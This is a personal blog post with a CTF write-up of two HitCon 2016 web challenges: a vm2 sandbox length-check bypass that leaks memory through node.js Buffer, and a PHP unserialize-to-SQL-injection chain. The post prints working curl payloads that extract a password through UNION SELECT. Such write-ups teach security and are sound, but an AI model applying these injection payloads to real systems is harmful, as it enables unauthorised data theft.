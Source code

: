 ```yaml
---
title: "Hello HitCon 2016 CTF"
date: 2016-10-11T20:34:09.000Z
tags:
  - "hitcon-2016"
  - "ctf"
feature_image: "content/images/2016/10/Zrzut-ekranu-2016-10-11-o-22.48.44.webp"
---
```


# Hello HitCon 2016 CTF

This is the very first post on this blog so it serves as 'Hello world' in my journey through the world of CTFs.

I was always into this kind of challenges from quite a long time. I was doing some kind of security tasks from sites like [wechall.net](wechall.net), <http://www.bright-shadows.net> or [Rankk](http://www.rankk.org).

I was also for a short time taking part CTFs from [ctftime.org](https://ctftime.org) but I was lacking a good team and commitment so I give up.

This year I've promised myself to take another try. But to do this right - I needed a good team. The best even. So I've approached the captain of the best Polish team - [Dragon Sector](http://blog.dragonsector.pl) \- and asked if I can play with them in the CTFs. Of course it would be as a trial as I am learning to be on their level. To my surprise it wasn't very new to them and I was invited to play with them and the upcoming event was HitCon 2016 CTF.

So how was it? For sure - great fun. Tasks were very hard (at least on my level). The team came at 11th place and I've managed to solve one task for 200 pts and advance on the other (I did not play for the whole 48h)

So what tasks did I worked on?

## Leaking

It was a node.js application that uses a VM to run the user code. The source code was given and it looked like this:
[code]
    "use strict";

    var randomstring = require("randomstring");
    var express = require("express");
    var {VM} = require("vm2");
    var fs = require("fs");

    var app = express();
    var flag = require("./config.js").flag

    app.get("/", function (req, res) {
        res.header("Content-Type", "text/plain");

        /*    Orange is so kind so he put the flag here. But if you can guess correctly :P    */
        eval("var flag_" + randomstring.generate(64) + " = \"hitcon{" + flag + "}\";")
        if (req.query.data && req.query.data.length <= 12) {
            var vm = new VM({
                timeout: 1000
            });
            console.log(req.query.data);
            res.send("eval ->" + vm.run(req.query.data));
        } else {
            res.send(fs.readFileSync(__filename).toString());
        }
    });

    app.listen(3000, function () {
        console.log("listening on port 3000!");
    });
[/code]

So the first challenge was to get pass through the check for the length of the data being passed to the node app. 12 characters is not that many. The second one was to jump out of the VM to read the flag. VM should be secure right? Not so much :)

The 12 character limit check was easy to break - it was only a matter of passing `data[0]` for `curl` and provide the input in the stdin.

`curl -g -G 'http://52.198.115.130:3000/' --data-urlencode "data[0]@-"`

Jumping of of the VM was a bit harder. I've tried different things. The VM wasn't as secure as you might imagine - just check [those issues](https://github.com/patriksimek/vm2/issues/32) on github that allow jumping out of the sandbox. But apparently the version used on the CTF was already patched. I needed to find something else.

I went on googling and found out that there's a different issue in Buffer type. [Looks like](https://github.com/nodejs/node/issues/4660) it does not clear the memory it allocates. So if you could allocated 10000 bytes it would print the content of memory with the contents that was there before. Bingo. That was what was needed. Just send to VM `new Buffer(10000)` and search for the flag in the output:

> hitcon{4nother h34rtbleed in n0dejs? or do u solved by other way?}

200 point collected!

## Baby Trick

We were given an info that

> There is no SQL Injection anymore!

And PHP source code

[View Gist](https://gist.github.com/pawlos/de6b345045f8a2f3d4141be8011989a9)

In which almost immediately we can see `unserialize` on untrusted input. Sweet. Is this going to be another easy one?

Ok, let's prepare a bogus data for unserialize:

`echo -ne 'O:6:"HITCON":3:{s:14:"\x00HITCON\x00method";s:4:"show";s:012:"\x00HITCON\x00args":a:2:{s:8:"username";s:6:"orange";s:8:"password";s:6:"123456";};s:12:"\x00HITCON\x00conn";b:0;}' | curl -D- -G http://52.198.42.246/ --data-urlencode 'data@-'`
and the result we got on the screen was promising:

> {"msg":"orange is admin"}[1]

As we can see from the PHP source code, input in the method show is not in any way escaped before being used in the SQL query. Let's see if we can do a SQLi there. Another payload:

`echo -ne 'O:6:"HITCON":3:{s:14:"\x00HITCON\x00method";s:4:"show";s:012:"\x00HITCON\x00args":a:2:{s:8:"username";s:18:"orange\x27#--sdasdasd";s:8:"password";s:6:"123456";};s:12:"\x00HITCON\x00conn";b:0;}' | curl -D- -G http://52.198.42.246/ --data-urlencode 'data@-'`

That returns the same output as before so there is an SQLi - never trust task descriptions :). Ok, now let's try to use this SQLi to our benefit. Can we extract Orange's password? Yup. Just need to construct such query:

`echo -ne 'O:6:"HITCON":3:{s:14:"\x00HITCON\x00method";s:4:"show";s:012:"\x00HITCON\x00args":a:2:{s:8:"username";s:95:"o\x27 UNION SELECT username,role as password, password as role from users WHERE username=\x27orange\x27#";s:8:"password";s:6:"123456";};s:12:"\x00HITCON\x00conn";b:0;}' | curl -D- -G http://52.198.42.246/ --data-urlencode 'data@-'`

lets focus for a moment what we do here. first we escape from the query by providing `\x27 (')` character and then we concatenate on UNION statement that will return for us a password for orange but because the code only prints the user's role we put the password there to get it on screen. Thanks to this trick we get:

> {"msg":"orange is babytrick1234"}

Ok, now we do have a user name and password. But looking at line [39](https://gist.github.com/pawlos/de6b345045f8a2f3d4141be8011989a9#file-babytrick-php-L39) in the login method we can't have 'orange' as our user name or in query in general. Bummer. And at this stage I've finished this task at the CTF. I've tried passing a `\0` in username but that didn't help. Also it did not help using some weird Unicode characters like [ZERO WIDTH SPACE](http://www.fileformat.info/info/unicode/char/200b/index.htm) or [WORD JOINER](http://www.fileformat.info/info/unicode/char/2060/index.htm). Nothing :/

I need to improve and be familiar with some PHP tricks if I want to make more progress in the upcoming CTFs.

See you at hack.lu

* * *

  1. Later I found out that the task was created by Orange Tsai - a guy how hacked Facebook - nice. ↩︎

